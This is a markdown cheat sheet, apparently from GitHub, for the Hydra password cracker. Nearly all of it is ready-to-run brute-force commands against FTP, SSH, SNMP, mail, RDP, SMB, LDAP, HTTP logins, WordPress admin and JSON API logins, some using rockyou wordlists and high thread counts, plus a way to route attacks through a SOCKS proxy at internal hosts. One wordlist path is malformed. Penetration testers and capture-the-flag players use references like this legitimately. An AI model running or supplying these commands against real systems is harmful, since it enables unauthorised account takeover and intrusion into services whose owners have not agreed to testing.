 # HYDRA ONLINE PASSWORD CRACKER

## Supports A LOT of protocols

## Complementary source: https://github.com/frizb/Hydra-Cheatsheet/tree/master

### Commands:

Test a login with same user as password, null password and reverse username as password

    hydra –l USER –e nsr ftp://IP

#### protocol = ftp, ssh, http-post-form (Requires login error to work), http-get, etc.

### Example: 

    hydra -l USER -P LIST TARGET_IP http-get /directory/

## JSON brute force with hydra

### Example:

#### hydra -l USER -P rockyou.txt TARGET_IP -s TARGET_PORT http-post-form "/api/session/authenticate{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:Authentication failed:H=Content-Type\: application/json" -t 64

### Run Hydra using a proxy against an internal target with the commands:

    export HYDRA_PROXY=socks5://localhost:1080

    hydra -L users.txt -P passwords.txt TARGET_IP ssh -V

## Alternate Trick: Combine your username and password list into a single "userpass" file

### 1) Write the usernames and passwords in a single file divided by the symbol ':'

### 2) Then run

    hydra -C combined.txt TARGET_IP ssh -V

# Hydra-Cheatsheet
Hydra Password Cracking Cheetsheet

The following table uses the $ip variable which can be set with the following command:  

`export ip 10.10.10.1`


| Command | Description |
|-------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------|
| hydra -P password-file.txt -v $ip snmp                                                                                                    | Hydra brute force against SNMP                       |
| hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp                                                                       | Hydra FTP known user and rockyou password list       |
| hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh                                                                              | Hydra SSH using list of users and passwords          |
| hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh                                                                         | Hydra SSH using a known password and a username list |
| hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt                                                                                         | Hydra SSH Against Known username on port 22          |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V                                                                          | Hydra POP3 Brute Force                               |
| hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V                                                                                         | Hydra SMTP Brute Force                               |
| hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin                                                                                 | Hydra attack http get 401 login with a dictionary    |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip                                                           | Hydra attack Windows Remote Desktop with rockyou     |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb                                                             | Hydra brute force SMB user with rockyou:             |
| hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Hydra brute force a Wordpress admin login            |
| hydra -L usernames.txt -P passwords.txt $ip smb -V -f | SMB Brute Forcing |
| hydra -L users.txt -P passwords.txt $ip ldap2 -V -f | LDAP Brute Forcing |
  
